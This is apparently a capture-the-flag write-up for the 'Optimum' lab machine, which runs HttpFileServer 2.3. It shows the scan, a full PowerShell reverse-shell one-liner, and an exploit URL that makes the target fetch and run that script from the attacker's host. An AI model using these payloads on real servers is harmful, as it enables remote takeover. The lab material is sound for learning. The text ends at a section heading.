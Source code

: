 # Optimum - Linux, easy (10.10.10.8)

### Enumeration
```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

In the website the most interesting things are a Login button and some server informations:
```
HttpFileServer 2.3
Server time: 26/8/2022 1:55:10 πμ
Server uptime: 00:04:24
```

Searching with `searchsploit HttpFileServer 2.3`, we can find a script that essentially performs an HTTP request for `/?search={.+exec|[url-encoded command].}`, and allows us to perform RCE.

### Obtaining Kostas
To get a shell, we can create a powershell script and write in it the following data:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

which is an reverse shell in PowerShell taken from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1).

To exploit the vulnerability and make it execute our reverse shell we need to setup an http server with python and a netcat listener.

Then, visit: `http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.2/rev.ps1').}` to make the target download our rev.ps1 file (the reverse shell in PowerShell).
When the file is downloaded, it is also executed by IEX (Invoke-Expression: runs command or expression on the local computer), and then shell connects back to our listening nc.

At this point we can get the first flag!

### From Kostas to Root
